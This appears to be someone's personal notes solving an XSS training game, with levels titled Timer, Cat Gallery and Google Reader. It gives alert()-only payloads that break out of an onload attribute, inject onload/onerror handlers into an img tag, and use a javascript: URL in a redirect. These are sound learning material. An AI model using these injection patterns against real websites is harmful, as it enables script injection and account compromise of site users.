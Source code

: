 # XSS Notes

* pretty much like sql injection but for html/js
* when DOM is updated dynamically, try using HTML5 events (`autofocus onfocus="alert()"` is a dope hack)
* Use this snippet to pause before page redirects: `window.addEventListener("beforeunload", function() { debugger; }, false)`

## Answers

### 1: 
### 2: Timer

HTML has `onload="startTimer('<user input>');"`. pass in `1');alert('1` so that html looks like `onload="startTimer('1');alert('1');`

### 3: Cat Gallery

In `chooseTab()`, html is built dynamically: `html += "<img src='/static/img/cat" + name + ".jpg' />";` update url fragment with:
```
1.jpg' onload="alert()" onerror="alert()" type='/static/img/cat
```
 such that html looks like 
 
```
html += "<img src='/static/img/cat" + "1.jpg' onload="alert()" onerror="alert(123)" type='/static/img/cat" + ".jpg' />
```
* Note: This is kinda finicky - sometimes it works and sometimes the app returns an error: `You executed an alert, but the server side validation of your solution failed.`

### 4: Google Reader

the email input is a red herring, and the interstitial redirect page is where its at. the signup page's submit button redierects to `/confirm?next=welcome` and the interstitial page runs `setTimeout(() => window.location = '<user input>'`. this takes advantage of the fact that you can type `javascript:<js code>` in the address bar to run the JS